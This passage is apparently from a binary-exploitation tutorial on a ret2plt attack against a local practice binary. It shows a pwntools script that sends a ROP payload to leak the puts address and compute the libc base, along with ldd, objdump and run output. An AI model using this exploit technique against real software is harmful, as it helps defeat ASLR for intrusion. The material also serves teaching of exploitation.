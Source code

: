Okay, we now have the randomized address of `puts`, but to proceed, we need the **base address of libc**. This can be calculated by subtracting the known **offset** of `puts` (within libc) from the leaked address. This offset can be obtained from tools like `libc.rip` or by checking the symbols in a known `libc.so` file using `objdump` but first we need to find where is `libc.so` in our Machine. We can do by:

```bash
❯ ldd ./ret2plt
	linux-vdso.so.1 (0x00007ffed34db000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd68f000000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd68f38e000)
```

We got `/lib/x86_64-linux-gnu/libc.so.6` now we can use `objdump`:

```bash
objdump -T  /lib/x86_64-linux-gnu/libc.so.6 | grep -i puts
```

![objdump.png](/img/objdump.png)
We got address `0000000000087be0`, put `0x` before to write in hex format like this: `0x0000000000087be0`.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2plt')

io = process()

pop_rdi = 0x00000000004012c3
puts = elf.sym.puts

payload = cyclic(40) + pack(pop_rdi) + pack(elf.got.puts) + pack(puts) 

io.sendline(payload)

leak = io.recvlines(2)[1]
leak_int = unpack(leak, 'all')
libc_base = leak_int - 0x0000000000087be0
print(hex(libc_base))

io.interactive()
```

```bash
❯ python3 main.py                                           
[*] '/home/at0m/ret2plt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/home/at0m/ret2plt': pid 9598
0x7ae02f400000
```
